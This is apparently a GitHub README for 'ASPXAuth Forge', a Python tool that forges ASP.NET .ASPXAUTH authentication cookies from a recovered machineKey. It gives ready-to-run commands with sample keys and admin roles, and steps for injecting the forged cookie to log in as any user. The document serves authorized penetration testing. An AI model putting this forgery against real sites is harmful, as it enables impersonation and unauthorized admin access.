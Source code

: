 # ASPXAuth Forge

**Generate legacy ASP.NET `.ASPXAUTH` authentication cookies**  
for authorized security testing, red-team labs, or research environments.

> **Legal & Ethical Notice**  
> This tool must **only** be used against systems you are explicitly authorized to test.  
> The author and repository owner assume no responsibility for misuse.

---

## What It Does

Classic ASP.NET applications (Framework 2.x–4.x) often rely on **Forms Authentication**
and issue a cookie named `.ASPXAUTH`.  
This cookie contains an encrypted and HMAC-signed “ticket” describing the user, roles,
expiration, and other metadata.

`aspxauth_forge.py` lets you **generate compatible cookies** when you already know
(or have recovered) the app’s `validationKey` and `decryptionKey` from its `web.config`.

It’s primarily intended for:
- Red-team operators reproducing legacy auth behavior in lab environments  
- Developers performing compatibility testing or forensic reconstruction  
- Pentesters validating weak machineKey configurations (authorized scope)

---

## Features

| Capability | Description |
|-------------|--------------|
| AES-CBC (zero IV) + HMAC-SHA256 | Matches legacy FormsAuth crypto |
| Custom username / roles / groups | Controlled via `--username`, `--roles`, or `--user-data` |
| Configurable ticket lifetime | `--lifetime-hours` sets the internal expiration checked by the server |
| Optional `Set-Cookie` output | Generates a ready-to-paste `Set-Cookie` header |
| Safety gate | Refuses to print cookie material unless `--i-know-what-im-doing` is set |
| Dry-run mode | Validates key and data handling without emitting secrets |
| Cross-platform | Pure Python 3.9+, no .NET dependency |

---

## Installation

```bash
python3 -m pip install pycryptodome
```

Clone or download this repo, then run the script directly:

```bash
chmod +x aspxauth_forge.py
```

---

## Usage

### Required arguments
- `--username` — user name embedded in the ticket  
- `--decryption-key` — the app’s `decryptionKey` (hex)  
- `--validation-key` — the app’s `validationKey` (hex)  

### Common optional arguments

| Option | Purpose |
|---------|----------|
| `--roles "Admin,Users"` | Add comma-separated roles (translated into `userData`) |
| `--user-data "role=admin|dept=it"` | Provide raw `userData` string (overrides `--roles`) |
| `--lifetime-hours 4` | Ticket validity period (server-side) |
| `--persistent` | Marks ticket as persistent (browser hint only) |
| `--out base64|hex|both` | Output format (default `base64`) |
| `--set-cookie` | Print a `Set-Cookie` header (ready for browser/proxy injection) |
| `--cookie-name .ASPXAUTH` | Change cookie name |
| `--cookie-domain example.com` | Add a Domain attribute |
| `--cookie-expires-hours 12` | Make the browser cookie persistent (client-side only) |
| `--i-know-what-im-doing` | Required to actually print the cookie material |
| `--dry-run` | Validate and exit without output |

---

### Example 1 – Basic Forge

```bash
python aspxauth_forge.py \
  --username "web_admin" \
  --decryption-key B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581 \
  --validation-key EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80 \
  --roles "Web Users" \
  --lifetime-hours 2 \
  --set-cookie \
  --i-know-what-im-doing
```

### Example 2 – Custom `userData`

```bash
python aspxauth_forge.py \
  --username alice \
  --user-data "role=admin|domain=acme" \
  --decryption-key <HEX_DEC_KEY> \
  --validation-key <HEX_VAL_KEY> \
  --out both \
  --i-know-what-im-doing
```

---

## Understanding Lifetime & Persistence

| Setting | Enforced by | Effect |
|----------|--------------|--------|
| `--lifetime-hours` | **Server** | Embedded ticket expiration (checked during validation). If expired, the server rejects the cookie even if the browser keeps it. |
| `--persistent` | **Client** | Only affects whether the browser stores the cookie beyond session close. Doesn’t impact server authorization. |
| `--cookie-expires-hours` | **Client** | Adds an `Expires`/`Max-Age` attribute in `Set-Cookie`. Controls how long the browser keeps the cookie, not how long the server honors it. |

---

## Using the Generated Cookie

### Browser (DevTools)

1. Open the target site (same domain/path as cookie scope).  
2. Open **Application → Storage → Cookies**.  
3. Add a cookie:
   - **Name:** `.ASPXAUTH`
   - **Value:** Base64 output from the tool  
   - **Path:** `/`
   - **Secure:** check if HTTPS  
   - **HttpOnly:** usually checked  
   - **SameSite:** `Lax` or `None`
4. Refresh — you’ll be logged in as the forged user while the ticket is valid.

### Proxy / Burp Suite

```
Cookie: .ASPXAUTH=<Base64Value>
```

### cURL

```bash
curl -k -H "Cookie: .ASPXAUTH=<Base64Value>" https://target.local/App/Default.aspx
```

---

## Example Reference

```xml
<machineKey
  validationKey="EBF9076B4E30..."
  decryptionKey="B26C371EA0A7..."
  validation="HMACSHA256"
  decryption="AES"
/>
```

---

## License

MIT © Sc4n-X

